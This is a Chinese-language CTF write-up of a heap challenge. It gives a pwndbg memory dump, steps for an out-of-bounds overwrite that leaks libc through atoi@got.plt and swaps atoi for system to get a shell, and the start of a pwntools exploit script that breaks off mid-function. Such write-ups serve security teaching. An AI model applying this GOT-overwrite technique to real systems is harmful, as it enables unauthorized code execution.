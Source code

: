 ```pwndbg> x/30gx 0x0000000001ac9c20
0x1ac9c10:      0x0000000000000000      0x0000000000000021       <-----iterator 0>
0x1ac9c20:      0x0000000001ac9c40      0x0000000001ac9c48
0x1ac9c30:      0x0000000001ac9c48      0x0000000000000021
0x1ac9c40:      0x0000000000000000      0x0000000000000000
0x1ac9c50:      0x0000000000000000      0x0000000000000021       <-----iterator 1>
0x1ac9c60:      0x0000000000405070<---atoi@got.plt      0x0000000001ac9ca0
0x1ac9c70:      0x0000000001ac9ca0      0x0000000000000031
0x1ac9c80:      0x0000000000000000      0x0000000000000000
0x1ac9c90:      0x0000000000000000      0x0000000000000000
0x1ac9ca0:      0x0000000000000000      0x0000000000020361
```

## 利用思路
可以利用第0个iterator覆盖第1个iterator结构体指向其内容的指针为atoi@got.plt，从而利用show泄露libc地址，然后对1个结构进行edit修改atoi为system，从而获取shell。

步骤：

1. 新建两个iterator
2. 对第0个iterator进行overwrite批量修改为atoi，由于没有检查边界，可以将第1个iterator的指针覆盖成atoi@got.plt
3. show第1个iterator，泄露atoi地址得到libc
4. edit第1个iterator，修改atoi为system
5. 触发atoi('/bin/sh'),获取shell。

## exp
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]
io = process('./main')
# p = remote('47.106.172.144',65001)


l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, b'\x00'))
uu64 = lambda data		: u64(data.ljust(8, b'\x00'))
ur64 = lambda data		: u64(data.rjust(8, b'\x00'))

def New(count):
    sla("> ",str(1))
    sla(": ",str(count))
def Show(count,item):
    sla("> ",str(2))
    sla("id: ",str(count))
    sla("id: ",str(item))
def Edit(count,item,num):
    sla("> ",str(3))
    sla("List id: ",str(count))
    sla("Item id: ",str(item))
    sla("number: ",str(num))
def Over_write(count,end,num,flags = 1):
    sla("> ",str(4))
```
